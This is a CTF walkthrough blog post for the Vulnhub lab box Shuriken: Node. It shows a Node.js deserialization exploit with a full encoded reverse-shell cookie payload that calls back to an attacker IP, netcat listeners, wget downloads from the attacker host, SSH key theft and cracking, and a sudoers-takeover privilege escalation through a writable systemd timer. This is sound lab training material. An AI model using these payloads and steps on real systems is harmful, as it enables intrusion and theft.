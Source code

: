 ```yaml
---
layout: post
title: "Shuriken: Node"
date: 2021-03-07
ctf: true
excerpt: "Walkthrough for Shuriken: Node on Vulnhub"
tags: [privilege escalation, Node.js deserialization, Linux service abuse]
comments: false


---
```



# Shuriken: Node

Shuriken:Node is a recently released box on [Vulnhub](https://www.vulnhub.com). It is rated as an easy/medium difficulty box by the author. Below are some hints and a full walkthrough for this box.

---
<details><summary><strong>Initial Foothold Hints</strong></summary>
<ul>
    <li>What technologies are being utilized on the main website?
    <li>Are there any vulnerabilities for this technology?
</ul>
</details>

<details><summary><strong>Lateral Movement Hints</strong></summary>
<ul>
    <li>Enumeration is very beneficial.
    <li>What other port was open besides the website's port?
    <li>What would you need to be able to connect with this service without a password?
</ul>
</details>

<details><summary><strong>Root Privilege Escalation Hints</strong></summary>
<ul>
    <li>What can the 2nd user run as sudo?
    <li>Is there a way this could be abused?
</ul>
</details>

---

<details><summary><strong>Full Walkthrough</strong></summary>
First, once imported, I run the following to discover the IP address of the system:

**`netdiscover -i eth0`**

![Shuriken - netdiscover](/assets/img/Shuriken1.png)

Next, I use:

**`threader3000`**

and input the system's IP address when prompted to uncover which ports are open on the system. Once completed, I let it run it's suggested nmap scan as well.

![Shuriken - threader3000](/assets/img/Shuriken2.png)

It appears that both SSH and a website are open. Let's visit the website on port 8080 by navigating to **http://\<target IP\>:8080** in our browser.

It appears that this company was recently the victim of a data breach.

![Shuriken - website1](/assets/img/Shuriken3.png)

 Scrolling further down there is a mention of a Node.js vulnerability. Node.js is being utilized as shown in the above nmap scan. Let's see if they are utilizing a vulnerable version.

![Shuriken - website2](/assets/img/Shuriken4.png)

Digging into this further, I uncovered that there was a cookie with a URL encoded value stored for my session:

![Shuriken - cookie](/assets/img/Shuriken5.png)

I used [CyberChef](https://gchq.github.io/CyberChef/) to URL Decode this value. This appeared to return a base64 encoded string. I then decoded this value as base64, which returned the following:



![Shuriken - decode cookie](/assets/img/Shuriken6.png)



Let's see if we can modify these cookie values and see if we're able to login as an administrator. I tested by changing the "username" value to admin and "isGuest" to false. I then reencoded the string as base64/URL encoding.

![Shuriken reencode cookie](/assets/img/Shuriken7.png)

Let's reload the page and see what happens.

![Shuriken revisit webpage](/assets/img/Shuriken8.png)

It appears that this updated the username to "admin", but we still need to login. Let's try a deserialization attack and insert a reverse shell into the cookie. Luckily, a sample script is available [here](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py). Let's run it as follows:

**`python nodejsshell.py <attacker ip> <attacker port>`**

![Shuriken nodejsshell.py](/assets/img/Shuriken9.png)

There's some additional steps that need to occur in order to properly get this to work. The following [site](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) provides a good example of what the values need to be set to. Essentially, the cookie needs to be replaced with something similar to the following:

**`{"rce":"_$$ND_FUNC$$_function (){<insert code from nodejsshell.py>}()"}`**

In this particular example, the code looks like the following:

**`{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,
114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,
114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,
97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,49,46,49,57,50,34,59,10,80,79,82,84,61,34,
52,53,54,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,
111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,
115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,
112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,
111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,
102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,
79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,
119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,
110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,
10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,
115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,
34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,
116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,
115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,
115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,
32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,
100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,
101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,
32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,
114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,
115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,
84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}`**

Let's reencode this to base64 and then URL encoding with CyberChef. Place the output of the script above in the "username" field.

![Shuriken modify cookie](/assets/img/Shuriken10.png)

Next, before we update the cookie value, let's create a netcat listener on our attacker pc. This can be done with:

**`nc -nvlp <port>`** 

where the port used is the one utilized in the nodejsshell.py script above.

![Shuriken nc listener](/assets/img/Shuriken11.png)



Next, modify this cookie value (in developer tools) and reload the webpage.

![Shuriken modify cookie value](/assets/img/Shuriken13.png)

If you look at your terminal window with netcat running, you should have an initial foothold on this system! 

![Shuriken initial foothold](/assets/img/Shuriken14.png)

Let's see how we can upgrade our shell. First, let's run:

**`which python`**

This returns a result, **/usr/bin/python** which lets us know that python is locally installed. Let's run

**`python -c 'import pty; pty.spawn("/bin/bash")'`** to upgrade our shell.

![Shuriken upgrade shell](/assets/img/Shuriken15.png)

Next, let's get linpeas onto this server by hosting it on our attacker host. This can be done by running the following command in another terminal window:

**`python3 -m http.server 8080`**

![Shuriken python3 http.server](/assets/img/Shuriken16.png)

Next, on the victim host, run the following commands to download the linpeas.sh script and make it executable:

**`cd /tmp`**

**`wget http://<attacker ip>:8080/linpeas.sh`**

**`chmod +x ./linpeas.sh`**

![Shuriken linpeas download](/assets/img/Shuriken17.png)

Next, run:

 **`./linpeas.sh`**

and review the output for privilege escalation methods. It appears that there is a backup of some SSH keys in  the /var/backups directory as shown below:



![Shuriken ssh-key.zip](/assets/img/Shuriken18.png)

Let's navigate to this directory with:

**`cd /var/backups`**

and run 

**`ls -al`** to view permissions on this file:

![Shuriken ssh-backup.zip permissions](/assets/img/Shuriken19.png)

It appears we have read only access to this file. Let's copy it to our current user's home directory with: 

**`cp ssh-backup.zip ~/`**

![Shuriken copy ssh-backup.zip file](/assets/img/Shuriken20.png)

Next, let's navigate to our user's home directory with:

**`cd ~`**

and then run: 

**`unzip ssh-backup.zip`**

This will inflate the id_rsa file, which is a private key for what is presumed to be the serv-adm user.

![Shuriken inflate ssh-backup file](/assets/img/Shuriken21.png)

We need to extract the public key, so in order to do so, we need to copy this file over to our attacker host. We know that python is installed so let's start a server with: 

**`python -m SimpleHTTPServer 9000`**

![Shuriken python SimpleHTTPServer](/assets/img/Shuriken22.png)

On our attacker host, let's run the following command:

**`wget http://<victim ip>:9000/id_rsa`**

![Shuriken save id_rsa](/assets/img/Shuriken23.png)

Next, let's change the permissions on this file to 600 with:

**`chmod 600 id_rsa`**

Next, let's convert this to a format that can be cracked with john with:

**`/usr/share/john/ssh2john.py id_rsa crackme`**

![Shuriken ssh2john](/assets/img/Shuriken24.png)

Next, let's run john with the following:

**`john crackme --wordlist=/usr/share/wordlists/rockyou.txt`**

This will return a password relatively quickly:

![Shuriken john ssh password](/assets/img/Shuriken25.png)

Now, let's SSH in and attempt to do it as the serv-adm user with:

**`ssh -i id_rsa serv-adm@<victim ip>`** 

When prompted for the password, enter the one that was cracked by john.

![Shuriken serv-adm access](/assets/img/Shuriken27.png)

Awesome, we now have access as the serv-adm user. Let's see if they have access to any root level permissions with:

**`sudo -l`**

![Shuriken serv-adm sudo -l](/assets/img/Shuriken28.png)

It looks like we have access to start/stop a service named shuriken-auto.timer. Let's run:

**`locate shuriken-auto.timer`** 

to find the folder this service is saved in

![Shuriken locate shuriken-auto.timer](/assets/img/Shuriken29.png)

Let's navigate to this folder with:

**`cd /etc/systemd/system/`**

and run:

**`ls -al|grep shuriken`**

![Shuriken view shuriken-auto.timer permissions](/assets/img/Shuriken30.png)

It appears we have the ability to modify this job and timer! Let's delete what's in there and modify the timer settings to:

**`OnCalendar=*:0/1`**

![Shuriken edit timer](/assets/img/Shuriken31.png)

Next, let's run:

**`nano shuriken-job.service`**

and change the [Service] section to what is shown in the screenshot below:

![Shuriken edit service](/assets/img/Shuriken32.png)

Once saved, navigate to the tmp directory with:

**`/cd/tmp`**

followed by:

**`nano test.sh`**

and enter the following:

**`#!/bin/bash`**

**`chmod 777 /etc/sudoers`**

![Shuriken modify sudoers](/assets/img/Shuriken33.png)

Next, let's make this script executable with:

**`chmod +x test.sh`**

![Shuriken chmod +x test.sh](/assets/img/Shuriken34.png)

Let's stop/start and reload the daemon by running the following:

**`sudo /bin/systemctl stop shuriken-auto.timer`**

**`sudo /bin/systemctl start shuriken-auto.timer`**

**`sudo /bin/systemctl daemon-reload`**

After a minute, the /etc/sudoers file should be world writeable:

![Shuriken sudoers permission change](/assets/img/Shuriken35.png)

Let's run:

**`nano /etc/sudoers`** 

and modify it so the serv-adm user can run bash as root by adding in the following:

**`serv-adm ALL=(ALL)NOPASSWD: /bin/bash`**

![Shuriken modify /etc/sudoers](/assets/img/Shuriken36.png)

Save and exit this file.

Next, we need to modify the permissions on /etc/sudoers back to 440 or else it will not work properly. Let's run **nano test.sh** and change the permissions to 440 in this script.

![Shuriken revert /etc/sudoers permissions](/assets/img/Shuriken37.png)

After a minute, the permissions should revert back to the appropriate level.

![Shuriken sudoers file permissions reverted](/assets/img/Shuriken38.png)

Now, let's run:

**`sudo /bin/bash`**

which should give you root access. Follow this up with:

**`cd /root`**

and

**`cat root.txt`**

to finish this box!

![Shuriken rooted](/assets/img/Shuriken39.png)

</details>
